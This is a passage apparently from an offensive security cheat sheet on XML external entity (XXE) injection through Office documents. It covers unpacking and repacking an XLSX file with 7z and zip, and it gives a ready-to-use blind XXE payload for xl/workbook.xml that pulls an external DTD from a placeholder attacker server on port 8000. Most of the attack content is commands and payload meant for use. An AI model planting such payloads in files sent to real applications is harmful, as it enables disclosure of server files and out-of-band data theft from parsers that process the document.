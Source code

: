 ```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

### XXE Inside XLSX file

Structure of the XLSX:

```ps1
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```

Extract Excel file: `7z x -oXXE xxe.xlsx`

Rebuild Excel file:

```
$ cd XXE
$ zip -r -u ../xxe.xlsx *
```

Warning: Use `zip -u` (https://infozip.sourceforge.net/Zip.html) and not `7z u` / `7za u` (https://p7zip.sourceforge.net/) or `7zz` (https://www.7-zip.org/) because they won't recompress it the same way and many Excel parsing libraries will fail to recognize it as a valid Excel file. A valid  magic byte signature with (`file XXE.xlsx`) will be shown as `Microsoft Excel 2007+` (with `zip -u`) and an invalid one will be shown as `Microsoft OOXML`.

Add your blind XXE payload inside `xl/workbook.xml`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```
